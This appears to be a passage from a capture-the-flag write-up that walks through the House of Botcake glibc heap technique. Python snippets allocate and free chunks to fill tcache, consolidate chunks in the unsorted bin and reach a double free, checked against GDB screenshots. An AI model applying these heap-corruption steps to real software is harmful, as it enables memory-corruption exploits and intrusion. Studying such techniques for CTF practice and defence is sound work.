 For this stage, we will use the technique called [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.32/house_of_botcake.c).

We will first `malloc` 7 chunks with the size larger than fastbin but still smaller than tcache and the ideal size if 0x100:

```py
for i in range(7):
    add(i, 0x100, '{}'.format(i).encode()*8)
```

Next, we will create 2 chunks with the same size as 0x100, the first one will be used for controlling (overwrite forward pointer) and the second one for attacking tcache:

```py
add(7, 0x100, '{}'.format(7).encode()*8)
add(8, 0x100, '{}'.format(8).encode()*8)
```

And 1 small chunk to avoid consolidation:

```py
add(9, 0x10, '{}'.format(9).encode()*8)
```

Next, we will free all 7 chunks at the beginning of this stage to fill up the tcache:

```py
for i in range(7):
    free(i)
```

And with the next free() the chunk with the same size as 0x100, because tcache is full so it will not be added to tcache but will put it to fastbin (if within size range of fastbin) or unsorted bin (in this case is unsorted bin because 0x100 is larger than fastbin)

![unsorted_bin_after_7_free.png](/static/images/foobar-ctf-2022/images/unsorted_bin_after_7_free.png)

So as the technique describe, we still have 2 chunk (index 7 and 8) haven’t freed yet. We will free the chunk which is below the other first (this case is chunk index 8 because it was `malloc()` later), then we free the chunk above that freed chunk to make consolidation between 2 chunk:

```py
free(8)
free(7)
```

After that, we will malloc 1 chunk with the same size of 0x100 to take 1 address out from tcache, and we free that chunk index 8 to put it to tcache and we successfully conducted a double free:

```py
add(20, 0x100, b'testtest')
free(8)
```

I malloc with index 20 to not remove the pointer of index 8. After this, let’s check GDB. We can see that tcache is full of 7 chunk:

![tcache.png](/static/images/foobar-ctf-2022/images/tcache.png)
